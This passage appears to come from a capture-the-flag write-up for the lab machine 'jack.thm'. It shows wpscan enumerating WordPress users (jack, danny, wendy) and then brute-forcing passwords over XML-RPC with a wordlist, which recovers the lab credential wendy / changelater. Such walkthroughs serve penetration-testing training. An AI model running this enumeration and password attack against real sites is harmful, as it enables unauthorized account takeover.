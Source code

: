 ```bash
 | Author: Ample Themes
 | Author URI: https://amplethemes.com/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 | Confirmed By: Css Style In 404 Page (Passive Detection)
 |
 | Version: 0.0.7 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://jack.thm/wp-content/themes/online-portfolio/style.css?ver=5.3.2, Match: 'Version: 0.0.7'

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <==========================================================================================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] jack
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://jack.thm/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] danny
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] wendy
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

...
```

<br>

<h3>usernames</h3>

```bash
:~/Jack# cat usernames
jack
danny
wendy
```

<br>

<h3>wpscan | users & passwords</h3>
<p><code>wendy</code> : <code>changelater</code></p>

```bash
:~/Jack# wpscan --url http://jack.thm -U usernames -P /usr/share/wordlists/fasttrack.txt
...

[+] Performing password attack on Xmlrpc against 3 user/s
[SUCCESS] - wendy / changelater                                                                                                                                                                                                                                                                                                                                                       
Trying danny / starwars Time: 00:00:07 <=============================================================================================================================================================================================================================                                                                              > (646 / 867) 74.50%  ETA: ??:??:??
```